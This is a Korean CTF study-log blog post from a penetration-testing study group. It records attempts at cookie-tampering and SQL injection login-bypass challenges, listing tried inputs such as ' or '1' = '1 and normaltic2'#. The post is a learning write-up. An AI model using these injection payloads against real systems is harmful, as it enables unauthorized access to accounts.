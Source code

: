 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 풀이: Cookie, SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-18
last_modified_at: 

categories: [CTF]
tags: [TIL, WEB, DATABASE, CTF]
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Admin is Mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# Pin Code Crack

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ

1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O